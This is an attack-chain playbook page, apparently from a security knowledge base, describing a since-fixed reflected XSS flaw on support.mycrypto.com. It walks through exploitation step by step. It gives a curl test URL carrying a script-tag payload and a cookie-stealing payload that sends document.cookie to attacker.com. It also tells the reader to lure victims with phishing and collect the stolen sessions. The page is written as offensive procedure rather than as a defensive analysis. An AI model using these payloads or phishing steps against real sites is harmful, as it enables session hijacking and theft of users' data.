

# Reflected XSS on support.mycrypto.com via Unsanitized Query Parameters

Multi-stage attack chain demonstrating a complete attack workflow for exploiting a reflected XSS vulnerability discovered on support.mycrypto.com, where query parameter values were displayed without sanitization, allowing JavaScript injection. Reported by sup3r-b0y on March 8, 2018, and fixed by March 14, 2018.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~1 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome, Firefox)
- Optional: [[tools/Burp-Suite]] for advanced payload testing

### Target Environment

- Target Platform: Web application at support.mycrypto.com
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Public internet access to the domain

### Initial Access Requirements

- No credentials required
- Direct network access to support.mycrypto.com
- No prior access needed; vulnerability is reflected and public-facing

## Detailed Attack Procedures

### Step 1: Initial Access
procedure: [[procedures/Exploit-Reflected-XSS-via-Query-Parameters]]

**Objective**: Craft a malicious URL with an injected JavaScript payload in a query parameter that will be reflected unsanitized in the response.

**Instructions**: Identify a query parameter on support.mycrypto.com that is directly displayed in the HTML response without escaping, such as a search or support ticket parameter. Construct a URL appending the payload, e.g., using a simple alert for testing:

```bash
# Example using curl to simulate, but execute in browser
curl "https://support.mycrypto.com/?q=<script>alert('XSS')</script>"
```

Replace `q` with the actual vulnerable parameter. For browser testing, navigate directly to the URL.

**Expected Output**: The page loads and displays the raw parameter value, with the script tag injecting and executing the JavaScript (e.g., alert popup appears).

**Success Indicators**:
- JavaScript payload executes (e.g., alert box pops up)
- Browser console shows no errors, and injected code runs

### Step 2: Execution
procedure: [[procedures/Exploit-Reflected-XSS-via-Query-Parameters]]

**Objective**: Trigger the payload to achieve impacts like session hijacking or data theft by luring a victim to click the malicious link.

**Instructions**: Once the payload is confirmed, escalate by replacing the test alert with malicious code, such as stealing cookies:

```javascript
# Payload example: <script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

Distribute the URL via phishing or social engineering to a victim. Monitor your server for exfiltrated data.

**Expected Output**: Victim's browser executes the script, sending sensitive data (e.g., session cookies) to the attacker's controlled endpoint.

**Success Indicators**:
- Attacker receives stolen data on their server
- Victim's session is hijacked or data is phished

## Attack Chain Summary

### Key Achievements

1. Successful injection and execution of arbitrary JavaScript in the victim's browser
2. Potential for session hijacking or theft of user data from the MyCrypto support site
3. Demonstration of medium-severity impact on a public-facing web application

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
